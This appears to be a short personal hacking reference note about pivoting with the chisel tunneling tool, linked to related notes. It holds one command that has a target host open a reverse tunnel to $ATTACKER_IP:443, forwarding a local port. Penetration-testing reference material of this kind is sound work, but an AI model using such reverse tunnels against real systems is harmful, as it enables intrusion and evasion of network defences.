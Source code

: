 # tunneling through chisel - socks Forward specific port
Forward port 1234 on attacker host to 127.0.0.1:1234 on target.
The client specifies the ports.
```
./chisel client $ATTACKER_IP:443 R:1234:127.0.0.1:1234
```

` zet/20221003150601/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

- [20221003150604](/zet/20221003150604/README.md) tunneling through chisel - socks
- ~/kb/hacking/commands/pivot-tunnel-through-chisel.md

Tags:

    #command #hacking #pivot 
